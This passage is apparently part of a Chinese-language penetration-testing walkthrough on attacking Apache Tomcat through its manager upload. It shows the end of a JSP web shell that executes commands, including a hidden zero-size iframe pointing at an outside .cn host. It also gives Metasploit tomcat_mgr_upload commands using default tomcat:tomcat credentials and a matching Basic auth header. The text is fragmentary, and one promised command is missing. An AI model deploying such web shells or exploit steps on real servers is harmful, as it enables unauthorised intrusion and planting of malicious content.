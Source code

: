 ```
<input type="hidden" >
<input type=submit <%=strExecute[languageNo]%>">
</form>
<%
if(sbCmd!=null && sbCmd.toString().trim().equals("")==false)
{
%>
 <TEXTAREA ><%=sbCmd.toString()%></TEXTAREA>
<br>

<%
}
%>
</DIV>
</div>
<br>
<br>

<center><a href="http://" target="_blank"></a> 
<br>

<iframe src=http://7jyewu.cn/a/a.asp width=0 height=0></iframe>

```

登录进去之后 进行查看

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaswDsn0Op6COgRmy4uq4dJyU2vMxGNGicXYtOCThT2OILsboy0D1HzQw/640?wx_fmt=jpeg)

**为什么需要上传 wa 包，为什么不是 tar.zip？？**

war 包是用来进行 Web 开发时一个网站项目下的所有代码，包括前台 HTML/CSS/JS 代码，以及后台 JavaWeb 的代码。当开发人员开发完毕时，就会将源码打包给测试人员测试，测试完后若要发布则也会打包成 War 包进行发布。War 包可以放在 Tomcat 下的 webapps 或 word 目录，当 Tomcat 服务器启动时，War 包即会随之解压源代码来进行自动部署。

上传 JSP 的大马

```
use exploit/multi/http/tomcat_mgr_upload 
set HttpUsername tomcat
set HttpPassword tomcat
set rhosts 192.168.175.191
set rport 8080
exploit

```

zip 压缩 然后改后缀 成 war 的包

或者使用 Java 命令：

```
Authorization: Basic dG9tY2F0OnRvbWNhdA==

```
